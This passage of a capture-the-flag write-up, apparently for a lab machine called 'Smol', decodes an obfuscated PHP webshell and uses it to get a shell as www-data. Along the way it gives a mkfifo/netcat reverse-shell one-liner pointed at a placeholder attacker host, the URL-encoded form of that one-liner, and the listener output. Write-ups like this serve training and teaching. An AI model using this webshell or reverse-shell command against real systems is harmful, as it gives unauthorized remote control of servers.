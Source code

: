 we need to further decode the variables, we can do this by using PHP in the console

```console
┌──(kali㉿kali)-[~/Smol]
└─$ php -r 'print("\143\155\x64 : \143\x6d\144");'
cmd : cmd  
```

We can see that they are both `cmd` , so the full PHP code being ran is:

```php
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); } 
```

This reveals to us a simple PHP webshell, we use it to get code execution by adding `?cmd=` to the end of the URL

This is the code we are going to use to achieve a reverse shell on the machine

```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc attacker_ip 4444 >/tmp/f
```

But first we need to URL encode it

```console
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20atacker_ip%204444%20%3E%2Ftmp%2Ff
```

Next we set up our listening port using Netcat

```console
┌──(kali㉿kali)-[~/Smol]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Now we send the payload in payload to the machine via the URL

![payload](/assets/img/CTFs/Smol/payload.jpg)

Finally we get our shell as www-data

```console
┌──(kali㉿kali)-[~/Smol]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.6.48.82] from (UNKNOWN) [10.10.11.4] 47914
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Shell to Root

### www-data to diego
